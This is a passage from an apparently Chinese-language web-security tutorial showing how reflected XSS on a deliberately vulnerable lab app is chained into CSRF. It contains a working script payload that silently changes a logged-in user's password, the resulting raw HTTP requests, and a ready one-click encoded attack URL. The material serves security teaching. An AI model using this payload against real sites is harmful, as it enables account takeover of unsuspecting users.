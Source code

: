 您将看到 3 个不同的选项：

1. 第一个是最简单和最小的请求。
2. 第二个包括所有的头字段，因为有些页面可能要求一些头字段是强制性的。例如，“Content-Type”可能是服务器处理请求的标准。您可以将此处作为参考，并找出您的最小 JavaScript 代码所需的字段。
3. 第三个是启用重定向。如果您想遵循“HTTP 302”响应，则应在“</script>”标记之前添加此代码。

对于我们的案例，第一个选项就可以了，我们将使用此代码来更改用户密码：

```xml
<script>var xhr=new XMLHttpRequest();xhr.open('GET','http://vm/vulnerabilities/csrf/?password_new=password1&password_conf=password1&Change=Change');xhr.withCredentials=true;xhr.send();</script>
```

我们将提供此 JS 作为 XSS（反射）问题的输入：

[![Agartha LFI|RCE|Auth|SQL注入等payloads生成器](C:\Users\m\Desktop\agartha\1667122236257.webp)](https://www.ddosi.org/wp-content/uploads/2023/04/1667122236257.webp)



当我们提交请求时，会发生两次不同的 Http 调用。该页面将执行我们的 JavaScript 负载，它调用另一个 Http 函数来更改用户密码。

用户提交请求：

```apache
GET http://vm/vulnerabilities/xss_r/?name=%3Cscript%3Evar+xhr%3Dnew+XMLHttpRequest%28%29%3Bxhr.open%28%27GET%27%2C%27http%3A%2F%2Fvm%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dpassword1%26password_conf%3Dpassword1%26Change%3DChange%27%29%3Bxhr.withCredentials%3Dtrue%3Bxhr.send%28%29%3B%3C%2Fscript%3E HTTP/1.1
Host: vm
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://vm/vulnerabilities/xss_r/
Cookie: PHPSESSID=8qdbvrqrj753qe6qgatukb3g81; security=low
Upgrade-Insecure-Requests: 1
```

另一个请求从 JavaScript 代码自动执行：

```http
GET http://vm/vulnerabilities/csrf/?password_new=password1&password_conf=password1&Change=Change HTTP/1.1
Host: vm
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=8qdbvrqrj753qe6qgatukb3g81; security=low
```

它表明，我们利用了 XSS 问题并执行了另一个代码。**只需单击即可更改用户密码：**

```xquery
http://vm/vulnerabilities/xss_r/?name=%3Cscript%3Evar+xhr%3Dnew+XMLHttpRequest%28%29%3Bxhr.open%28%27GET%27%2C%27http%3A%2F%2Fvm%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dpassword1%26password_conf%3Dpassword1%26Change%3DChange%27%29%3Bxhr.withCredentials%3Dtrue%3Bxhr.send%28%29%3B%3C%2Fscript%3E
```
